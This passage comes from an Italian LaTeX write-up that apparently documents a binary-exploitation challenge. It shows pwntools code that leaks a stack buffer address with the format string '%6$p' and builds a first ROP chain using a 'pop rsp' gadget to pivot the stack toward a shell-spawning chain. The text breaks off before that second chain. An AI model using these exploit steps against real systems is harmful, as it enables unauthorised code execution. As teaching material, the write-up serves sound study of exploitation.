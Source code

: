 Come buffer venne utilizzato quello passato come secondo argomento alla funzione, e il suo indirizzo venne recuperato inserendo una particolare \textbf{format string} alla richiesta della prima \textbf{read}:
\begin{lstlisting}[language=Python, label=buffer idx, caption={Recupero dallo stack dell'indirizzo del buffer mediante una \textbf{format string}.}, style =Python]
p.send(b"%6$p")                                     # stampa idx buffer 

buffer = int(p.recvline(False).decode('utf-8'),16)  # salvataggio indirizzo buffer
\end{lstlisting}
Siccome gli indirizzi degli argomenti passati alle funzioni vengono salvati nello stack, anche in questo caso quelli dei due buffer passati venivano memorizzati in esso, perciò con la format string è stato possibile recuperare l'indirizzo di quello utilizzato dalla seconda \textbf{read}().
Il passo successivo fu creare una prima \textbf{ROP chain} minore da al più 16 byte di dimensione per ``dirottare lo stack''. A tale scopo venne trovato un gadget che consentisse la sostituzione del contenuto di \textbf{rsp} con l'indirizzo appena trovato:
\begin{lstlisting}[language=Python, label=rop1, caption={Prima \textbf{ROP chain} per dirottare lo stack.}, style =Python]
pop_rsp = p64(0x40134d)                   # pop rsp; pop r13; pop r14; pop r15; ret;

rop1 = ROP(elf)                           # creazione oggetto rop1
rop1.raw(pop_rsp)                         # pop rsp; pop r13; pop r14; pop r15; ret;
rop1.raw(buffer)                          # rsp = buffer idx
\end{lstlisting}
Nella seconda \textbf{ROP chain}, ossia quella memorizzata nel buffer, venne inserito invece tutto il necessario per l'esecuzione della \textit{shell}:
